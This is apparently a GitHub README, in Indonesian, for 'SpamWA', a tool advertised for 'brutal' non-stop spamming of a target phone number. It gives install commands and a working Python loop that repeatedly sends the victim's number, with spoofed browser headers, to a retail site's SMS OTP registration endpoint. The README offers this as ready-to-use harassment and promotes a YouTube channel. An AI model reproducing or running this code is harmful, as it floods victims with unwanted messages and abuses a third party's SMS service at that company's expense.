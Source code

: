 ## SpamWA
#made by Mr. E-CYBER TEAM
Spam Brutal WhatsApp 24 jam non stop

<details open>
  <summary><strong> Install Package + Run Script </strong></summary>

  ```bash
  pkg update && pkg upgrade
  pkg install nano
  pkg install git
  pkg install python
  git clone https://github.com/teamcyber-glitch/SpamWA
  bash install.sh
  cd SpamWA
  python main.py
  ```
  </details>

<details open>
  <summary><strong> 24 jam non stop tutorial </strong></summary>

  ```bash
  Example:
  import os,sys,time,requests,json
  abc=input("Nomor Target:")
  while True:
        print (abc)
        # Tambah time.sleep(5) (Jika Ingin Delay)
  ```
  </details>

#### KELEBIHAN 📍
| Kelebihan | Check |
|--------|--------|
| **24 Jam non stop** |[✔️](https://github.com/teamcyber-glitch) |
| **Brutal Spam** |[✔️](https://github.com/teamcyber-glitch) |
| **Simple** |[✔️](https://github.com/teamcyber-glitch) |
| **No Encrypt** |[✔️](https://github.com/teamcyber-glitch) |
| **Subscribe** |[Here](https://youtube.com/channel/UCprM5VxY0pQ_i3tZO5Leaqw) |
---------

<details open>
  <summary><strong> 24 jam non stop example </strong></summary>

  ```bash
  import os,sys,time,requests,json
  nomor=input("Nomor Target:")
  while True:
        requests.post("https://beryllium.mapclub.com/api/member/registration/sms/otp",headers={"Host":"beryllium.mapclub.com","content-type":"application/json","accept-language":"en-US","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","origin":"https://www.mapclub.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.mapclub.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"account":nomor})).text
        time.sleep(10) # Waktu Delay Bisa Atur Sendiri
  ```
  </details>

> SUBSCRIBE MY CHANNEL >_<

[![](https://youtube.com/channel/UCprM5VxY0pQ_i3tZO5Leaqw)

